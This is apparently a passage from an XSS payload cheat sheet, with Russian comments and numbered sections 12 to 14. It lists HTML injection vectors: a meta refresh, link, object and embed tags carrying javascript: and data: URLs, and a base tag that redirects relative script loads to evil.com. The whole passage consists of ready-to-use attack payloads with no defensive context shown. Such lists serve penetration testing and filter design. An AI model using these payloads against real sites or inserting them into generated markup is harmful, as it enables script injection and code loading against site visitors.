<meta http-equiv="refresh" content="0; url=javascript:alert(1)">

<!-- 12. Link (очень редко) -->
<link rel="stylesheet" href="javascript:alert(1)">
<link rel="import" href="data:text/html,<script>alert(1)</script>">

<!-- 13. Object/Embed с HTML -->
<object type="text/html" data="javascript:alert(1)"></object>
<embed type="text/html" src="javascript:alert(1)">

<!-- 14. Base-тег (меняет пути) -->
<base href="https://evil.com/">
<script src="script.js"></script>  <!-- загрузится с evil.com -->

```

